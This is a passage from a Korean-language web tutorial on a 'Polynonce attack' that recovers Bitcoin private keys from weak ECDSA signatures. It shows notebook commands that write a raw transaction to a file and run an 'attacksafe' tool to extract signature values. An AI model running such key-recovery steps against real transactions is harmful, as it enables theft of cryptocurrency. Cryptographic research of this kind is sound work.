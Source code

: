
<blockquote class="wp-block-quote">
<p>두 번째 예에서 파일을 제거해 보겠습니다.</p>
</blockquote>



<pre class="wp-block-code"><code>!rm RawTX.txt
!rm NoncesHEX.txt
!rm PrivateKey.txt
!rm SignatureRSZ.csv
!rm PrivateKeyAddr.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/04/image-158.png" alt="POLYNONCE ATTACK은 BITCOIN 서명을 임의의 높은 128비트의 다항식으로 사용하여 개인 키를 얻습니다." class="wp-image-3030"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<blockquote class="wp-block-quote">
<p><em></em><code>HEX</code><em>유틸리티를 통해 -data를&nbsp;&nbsp;</em><em>로드&nbsp;&nbsp;</em><code>echo</code><em>&nbsp;하고 파일에 저장:&nbsp;&nbsp;</em><strong>RawTX.txt</strong></p>
</blockquote>



<pre class="wp-block-code"><code>!echo '01000000016eb80d35b08164302e49f88d8f86bf2827a91a5650149be38f4f73751ff41437060000006a473044022043d4c025a0f3be366a0d768c721b9b9191e0c3db6f2c6bfe34e8fb24af7f379102205a4fe2cc6944e00309c35619ff1242301b84d4728b863f97326f56dbd7a782220121027ccccf5f56ed78c2a761721ff3da0f76b792fbe4eae2ac73e7b4651bc3ef19cdffffffff01c057010000000000232103bec42e5d718b0e5b3853243c9bcf00dd671a335b0eb99fd8ca32f8d5784a9476ac00000000' &gt; RawTX.txt
</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/04/image-124-1024x468.png" alt="POLYNONCE ATTACK은 BITCOIN 서명을 임의의 높은 128비트의 다항식으로 사용하여 개인 키를 얻습니다." class="wp-image-2889"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2 class="wp-block-heading"><code>-tool polynonce_attack</code>&nbsp;소프트웨어를 사용하여&nbsp;&nbsp;실행&nbsp;<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>!./attacksafe -tool polynonce_attack -open RawTX.txt -save SignatureRSZ.csv</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/04/image-125-1024x252.png" alt="POLYNONCE ATTACK은 BITCOIN 서명을 임의의 높은 128비트의 다항식으로 사용하여 개인 키를 얻습니다." class="wp-image-2890"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>

